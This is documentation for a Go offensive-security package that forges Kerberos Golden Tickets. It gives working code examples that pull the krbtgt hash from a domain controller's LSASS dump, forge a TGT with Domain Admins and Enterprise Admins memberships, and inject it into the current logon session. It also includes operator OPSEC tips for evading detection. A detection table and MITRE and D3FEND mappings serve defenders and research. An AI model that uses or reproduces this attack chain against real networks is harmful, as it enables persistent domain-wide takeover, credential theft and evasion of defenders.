

# Kerberos Golden Ticket

[← credentials index](README.md) · [docs/index](../../index.md)

## TL;DR

You stole the domain controller's `krbtgt` account hash (via
`credentials/lsassdump` on a DC, NTDS.dit extraction, etc.).
With that hash you can forge an arbitrary Kerberos TGT — any
user, any group membership, any lifetime — that the entire
domain trusts until krbtgt is rotated (in practice: often
never).

| You want to… | Use | Constraint |
|---|---|---|
| Forge a TGT for a chosen principal + group memberships | [`Forge`](#forge) | Need krbtgt key (RC4-HMAC / AES128-CTS / AES256-CTS) |
| Inject the forged TGT into your current logon session's cache | [`Submit`](#submit) | Windows-only; uses `LsaCallAuthenticationPackage(KerbSubmitTicketMessage)` |
| Verify a forged PAC roundtrips correctly (research / detection) | [`ValidatePAC`](#validatepac) | Same krbtgt key — re-runs MS-PAC §2.8 server+KDC signature dance in reverse |

What this DOES achieve:

- Long-dwell domain admin: forged TGT works for any principal
  (typically `Administrator`) with any group membership
  (typically `Domain Admins SID + Enterprise Admins SID`).
- Survives password rotation of the impersonated user — only
  krbtgt rotation kills it.
- Pure-Go ASN.1 marshaling — no `kerberos` external dep, no
  Java/Python tooling required.

What this does NOT achieve:

- **Doesn't steal the krbtgt hash** — pre-requisite. Get from
  [`credentials/lsassdump`](lsassdump.md) on a DC, NTDS.dit
  extraction (impacket-style), or DCSync (out of scope here).
- **Detectable**: forged TGTs have telltale anomalies (PAC
  signature using only one key when DC normally uses two,
  `LogonTime` mismatch with `KerbValidationInfo.LogonTime`,
  abnormal `EncTicketPart.Renew-till` > 7 days). Mature SIEMs
  + Microsoft Defender for Identity look for these.
- **Not for cross-realm trust** — forged TGT works inside the
  realm krbtgt belongs to. Cross-forest needs a different
  attack class.
- **PAC signature breaks if the realm enables PAC validation
  to the KDC** (rare but increasing) — the KDC can reject
  forged tickets it didn't issue. Default is no validation.

## Primer

Kerberos TGTs are signed by `krbtgt`, a domain-wide service account
whose long-term key never leaves a domain controller. Anyone
holding the krbtgt key can mint a TGT for any principal — there is
no online check until the next krbtgt rotation. Microsoft
recommends rotating krbtgt twice per year; in the wild it is
typically rotated never.

The forged TGT carries a Privilege Attribute Certificate (PAC)
inside its `EncTicketPart`. The PAC is the authorization data: it
declares *which* groups the principal belongs to. By forging the
PAC the operator claims `Domain Admins`, `Enterprise Admins`,
`Schema Admins`, and `Group Policy Creator Owners` regardless of
what the AD database says. The PAC also fixes a `LogonTime` and
`KickoffTime` — set the kickoff 10 years in the future and the
ticket is valid for a decade.

Two PAC signatures (server checksum + KDC checksum) protect the
PAC from tampering; both are computed with the krbtgt key, so once
you have the key you control the signatures too. Member servers
typically don't validate the KDC checksum (the
`PAC_VALIDATE_TICKET` callback is rarely wired up), making the
ticket usable everywhere.

The package supports the three crypto suites Active Directory
shipped with NT 4 → today: RC4-HMAC (NT hash, 16 bytes; legacy but
universally present), AES128-CTS-HMAC-SHA1-96 (16 bytes), and
AES256-CTS-HMAC-SHA1-96 (32 bytes). Modern AES-only domains accept
RC4 tickets only when `RC4_HMAC` is explicitly enabled — check
`msDS-SupportedEncryptionTypes` on the krbtgt object before
choosing.

## How It Works



Implementation details:

- The PAC server signature covers the encrypted ticket bytes; the
  KDC signature covers the server signature. Both are HMAC-MD5
  for RC4 / HMAC-SHA1-96 for AES — keyed on the krbtgt long-term
  key, which is also the ticket-encryption key.
- `default_templates.go` ships `DefaultAdminGroups` —
  `{512, 513, 518, 519, 520}` (Domain Admins, Domain Users,
  Schema Admins, Enterprise Admins, Group Policy Creator Owners).
- `Forge` is deterministic for a fixed `Params` + a fixed
  `Params.NowFunc` — useful for tests and reproducibility.
- `Submit` calls `LsaCallAuthenticationPackage` with
  `KerbSubmitTicketMessage`. The kirbi is written into the
  calling user's per-LUID cache; the next outbound Kerberos
  operation from the process picks it up. No domain controller
  contact is required.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/credentials/goldenticket`](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/goldenticket) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple — forge with defaults, write to disk

```go
import (
    "os"

    "github.com/oioio-space/maldev/credentials/goldenticket"
)

p := goldenticket.Params{
    Domain:    "corp.example.com",
    DomainSID: "S-1-5-21-1111-2222-3333",
    Hash: goldenticket.Hash{
        EType: goldenticket.ETypeAES256CTSHMACSHA196,
        Bytes: aes256KrbtgtKey,
    },
}
kirbi, err := goldenticket.Forge(p)
if err != nil {
    panic(err)
}
_ = os.WriteFile("admin.kirbi", kirbi, 0600)
```

### Composed — forge + inject into current process

```go
kirbi, err := goldenticket.Forge(p)
if err != nil {
    panic(err)
}
if err := goldenticket.Submit(kirbi); err != nil {
    panic(err)
}
// any subsequent Kerberos call (SMB, LDAP, RDP) from this process
// authenticates as p.User with the forged group memberships.
```

### Composed — pre-flight validation (operator sanity check)

```go
import (
    "errors"
    "log"

    "github.com/oioio-space/maldev/credentials/goldenticket"
)

// Use case: I just stole a krbtgt key from a DC LSASS dump. Did
// the dump survive the round-trip cleanly? Does my key actually
// produce a PAC that re-validates? Run a self-test before risking
// detection by submitting the kirbi.
//
// `pacBytes` here is the raw PAC blob from a captured ticket or a
// round-tripped Forge → extract-PAC sequence. ValidatePAC is the
// reverse of buildPAC's signature dance.
err := goldenticket.ValidatePAC(pacBytes, krbtgtHash)
switch {
case err == nil:
    log.Println("PAC signatures valid — krbtgt key works")
case errors.Is(err, goldenticket.ErrInvalidServerSignature):
    log.Println("server signature mismatch — wrong key or tampered PAC body")
case errors.Is(err, goldenticket.ErrInvalidKDCSignature):
    log.Println("KDC signature mismatch — server sig was tampered after forge")
default:
    log.Printf("PAC validation failed: %v", err)
}
```

### Advanced — chained off the sekurlsa extractor

```go
import (
    "github.com/oioio-space/maldev/credentials/goldenticket"
    "github.com/oioio-space/maldev/credentials/sekurlsa"
)

res, _ := sekurlsa.ParseFile(`C:\dc01-lsass.dmp`, nil)
defer res.Wipe()

// Find the krbtgt session in the parsed dump.
var krbtgtKey []byte
for _, sess := range res.Sessions {
    if sess.UserName == "krbtgt" {
        for _, c := range sess.Credentials {
            if msv, ok := c.(*sekurlsa.MSVCredential); ok {
                krbtgtKey = msv.NTHash
            }
        }
    }
}

p := goldenticket.Params{
    Domain:    "corp.example.com",
    DomainSID: "S-1-5-21-1111-2222-3333",
    Hash: goldenticket.Hash{
        EType: goldenticket.ETypeRC4HMAC,
        Bytes: krbtgtKey,
    },
}
kirbi, _ := goldenticket.Forge(p)
_ = goldenticket.Submit(kirbi)
```

See [`ExampleForge`](../../../credentials/goldenticket/goldenticket_example_test.go)
+ [`ExampleSubmit`](../../../credentials/goldenticket/goldenticket_example_test.go)
for the runnable variants.

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| TGT lifetime > `MaxTicketLifetime` (default 10h) | Kerberos audit (Event 4769); long-lived tickets stand out trivially |
| `Domain Admins` membership for an account that doesn't have it in AD | LDAP cross-checks against actual `memberOf` |
| RC4 etype on a domain that enforces AES | Event 4769 with `Ticket Encryption Type 0x17` — anomalous on modern domains |
| `LsaCallAuthenticationPackage` from non-Lsass process | EDR API telemetry (Defender for Identity, MDE) |
| Ticket reuse from atypical workstations | Authentication-source IP correlation |

**D3FEND counters:**

- [D3-AZET](https://d3fend.mitre.org/technique/d3f:AuthorizationEventThresholding/)
  — flags long-lived TGTs and unexpected admin-group access.
- [D3-NTA](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/)
  — correlates Kerberos traffic to authentication-source anomalies.

**Hardening for the operator:**

- Set `Lifetime` to a value the domain's policy actually allows
  (`MaxTicketLifetime`, default 10h) at the cost of frequent
  refreshes — reduces the loudest indicator.
- Use the actual etype the domain expects; AES256 is the modern
  default.
- Forge for a non-admin principal that legitimately needs broad
  access (Backup Operator, Replicator) instead of `Administrator`
  to dodge naive group-name allowlists.
- Forge `Forge` on a Linux launchpad and only ship the kirbi to
  the target — the binary size on the Windows host stays minimal.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1558.001](https://attack.mitre.org/techniques/T1558/001/) | Steal or Forge Kerberos Tickets: Golden Ticket | full — Forge + Submit | D3-AZET, D3-NTA |
| [T1550.003](https://attack.mitre.org/techniques/T1550/003/) | Use Alternate Authentication Material: Pass the Ticket | partial — `Submit` is the inject side; `Forge` produces the ticket | D3-NTA |

## Limitations

- **krbtgt rotation defeats the ticket.** AD silently retires
  forged TGTs after the second rotation — no error, the ticket
  simply stops decrypting.
- **No Diamond / Sapphire variants.** This package forges classic
  Golden Tickets only; Diamond Tickets (modify-don't-forge) and
  Sapphire Tickets (modify a real TGT's PAC via S4U2Self) are not
  in scope.
- **No Silver Ticket support.** Silver Tickets target a service
  account's NTLM hash and forge service-specific TGS tickets;
  algorithm overlaps but `PrincipalName` and the encryption key
  are different — separate package.
- **Submit is per-process, per-LUID.** The injected ticket only
  helps Kerberos calls from *this* process; child processes
  inherit the cache but unrelated processes do not.
- **PAC structural validation gap (logical only).** `Forge` does
  not validate the produced PAC against MS-PAC §2 except by
  checksumming. Hand-crafted group RIDs that don't exist won't be
  rejected by the package itself — defenders can. The new
  `ValidatePAC` covers cryptographic signature integrity (server +
  KDC) but NOT logical field validity (RID plausibility,
  UNICODE_STRING shape, group-membership coherence).
- **`ValidatePAC` does not check `TicketChecksum` (type 0x10) or
  `ExtendedKDCChecksum` (type 0x13).** Most golden tickets don't
  carry them; their inclusion is a 2022+ Kerberos hardening
  concern out of scope for the current `Forge` path. When/if Forge
  starts emitting them, ValidatePAC must be extended in the same
  commit.

## See also

- [`credentials/sekurlsa`](sekurlsa.md) — extracts krbtgt hashes
  from a DC LSASS dump.
- [`credentials/lsassdump`](lsassdump.md) — produces the LSASS
  dump consumed by sekurlsa.
- [Operator path](../../by-role/operator.md#credential-harvest)
  — where Golden Ticket fits in the harvest chain.
- [Detection eng path](../../by-role/detection-eng.md#credential-access)
  — Kerberos audit signals.
- [MS-PAC §2](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/166d8064-c863-41e1-9c23-edaaa5f36962)
  — public PAC structure spec.
